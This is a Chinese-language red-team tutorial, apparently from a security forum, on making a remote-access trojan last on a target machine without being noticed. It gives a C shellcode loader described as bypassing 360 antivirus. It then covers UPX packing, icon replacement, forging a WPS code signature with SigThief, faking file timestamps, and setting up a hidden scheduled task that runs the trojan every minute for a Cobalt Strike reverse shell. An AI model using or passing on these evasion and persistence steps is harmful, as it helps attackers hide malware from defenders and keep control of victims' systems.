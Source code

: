 

# 红队视角下的隐匿木马文件 实现持久化控制 - 先知社区

红队视角下的隐匿木马文件 实现持久化控制

- - -

### 前言

在红蓝对抗的过程中，远控木马起到了相当重要的作用，而面对蓝队技术人员的种种查杀，远控木马如何在目标机器上长久的存活下去

### 免杀马制作

cobalt strike 生成 shellcode.c  
[![](assets/1699257267-f19848466d0da4851c8b0243dcab12df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103223649-6c30ee5e-7a56-1.png)  
可以根据目标机器安装的杀毒软件制作有针对性的免杀马，当然，能够 BypassAV 是最好不过的了，为了节约时间成本，选择使用申请动态内存的方式加载 shellcode 生成免杀木马

```bash
#include <Windows.h>
#include <stdio.h>
#include <string.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows 控制台程序不出黑窗口
unsigned char buf[] = 
"shellcode";
main()
{
  char *Memory; 
  Memory=VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(Memory, buf, sizeof(buf));
  ((void(*)())Memory)();
}
```

可以通过 360 的静态免杀，动态操作也没有任何报毒提示  
[![](assets/1699257267-c05cf0d49ff0c64dc24ccd58592ccbe4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224138-18a68c70-7a57-1.png)

### 文件加壳

这里生成的 shellcode 为 64 为的执行代码，使用 upx 进行加壳

**项目地址**

[https://github.com/upx/upx](https://github.com/upx/upx)

```bash
.\upx.exe C:\Users\33519\Desktop\shellcode.exe
```

[![](assets/1699257267-e7817efcb34f6f54e0805997bf9ee264.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224231-37d6af94-7a57-1.png)  
文件加壳后属性对比  
[![](assets/1699257267-aeaca3e3da98a99ba8debe1ab3a6cbe9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224402-6e264bd6-7a57-1.png)

### 替换图标

使用 BeCyIconGrabberPortable 提取图标  
[![](assets/1699257267-071977a86f46731128456581bf92b5b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224500-90f2c8e2-7a57-1.png)  
**项目地址**  
[https://github.com/JarlPenguin/BeCyIconGrabberPortable](https://github.com/JarlPenguin/BeCyIconGrabberPortable)  
使用 Resource hacker 替换木马程序的图标  
[![](assets/1699257267-929ff6cb2e5b18123824dd41d006efc2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224527-a0b6555a-7a57-1.png)

### 伪造签名

使用 SigThief 对木马程序进行数字签名伪造  
**项目地址**  
[https://github.com/secretsquirrel/SigThief](https://github.com/secretsquirrel/SigThief)  
使用 wps 的数字签名进行伪造

```bash
python .\sigthief.py -i wps.exe -t .\shellcode.exe -o shellcode2.exe
```

[![](assets/1699257267-0f427220f3cbd486105e94f14ee3a754.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225005-46af7842-7a58-1.png)

-   \-i 自带签名的文件
-   \-t 未加签名的文件
-   \-o 输出文件  
    shellcode2 为伪造数字签名后的木马文件  
    [![](assets/1699257267-351f258410a5bd1e41742c15511521b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225049-6095c0f4-7a58-1.png)

### 伪造文件修改时间

蓝队技术人员通常会在时间顺序上排查攻击者上传的文件，我们上传的木马文件是最新的，所以使用 ChTimeStamp 伪造文件修改的时间  
**项目地址**  
[https://github.com/MsF-NTDLL/ChTimeStamp](https://github.com/MsF-NTDLL/ChTimeStamp)

```bash
ChTimeStamp.exe C:\Users\canxue\Desktop\shellcode2.exe "C:\Program Files (x86)\360\360Safe\360bps.dat"
```

[![](assets/1699257267-99072e9176e5811f51349b6ce3d718dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103230339-2b89734a-7a5a-1.png)  
360bps.bat 为安装 360 时创建的文件，时间为一月份  
修改前后文件属性对比  
[![](assets/1699257267-a43e3d1ac9a277ee534d33b16dcbc240.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225115-7071a51a-7a58-1.png)  
[![](assets/1699257267-3683f66db245e7378bed1e5ed14c677d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225159-8a4587cc-7a58-1.png)

通过 everything 筛查文件不会发现近期上传的木马文件  
[![](assets/1699257267-180330b4a0ae59bf3c2337d8859797e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225215-94533408-7a58-1.png)  
[![](assets/1699257267-8632b8ba36713b33a73f595536e5fdc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225235-9ff7122a-7a58-1.png)

### 计划任务隐藏自启动木马程序

使用 SchTask 创建隐藏的自启动任务  
**项目地址**  
[https://github.com/0x727/SchTask\_0x727/tree/main](https://github.com/0x727/SchTask_0x727/tree/main)

```bash
选择主机随机进程名作为计划任务程序文件名
将计划任务程序文件复制到 `%AppData%\Microsoft\Windows\Themes\` 中
创建的计划任务名取同一随机进程名
计划任务触发器以分钟为单位，无限期持续
更改 Index、删除 SD 的键值，隐藏计划任务对应的 XML 文件
```

```bash
SchTask.exe shellcode2.exe 1
```

设置每分钟执行一次计划任务，计划任务为执行 shellcode2.exe 程序  
[![](assets/1699257267-fc7ec930e105372a62361bb9f0cebf73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225518-01456c02-7a59-1.png)  
被隐藏的计划任务，在注册表中可以看到  
[![](assets/1699257267-8ef4b99a59e18e440d0fd6cb90ebba93.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225550-1460bb66-7a59-1.png)  
[![](assets/1699257267-64491ab2c221af3869ead291f613e704.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225610-204bb98a-7a59-1.png)  
一分钟后自动执行木马程序，cobalt strike 可以正常接收到反弹的 shell  
[![](assets/1699257267-cb9819a101e8e1a10329b1648cb81c9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225652-39517c58-7a59-1.png)  
可以正常上线，命令也可以正常执行  
[![](assets/1699257267-a683212f6bcb450dfbdda11f7dfe3585.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225808-6684315c-7a59-1.png)

```bash
attrib +s +h +r
```

使用此命令深度隐藏木马文件，即使打开查看隐藏文件选项也无法显示文件  
[![](assets/1699257267-0d42a1799e5bd3fdabc592049a2d21c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225721-4a46bc62-7a59-1.png)
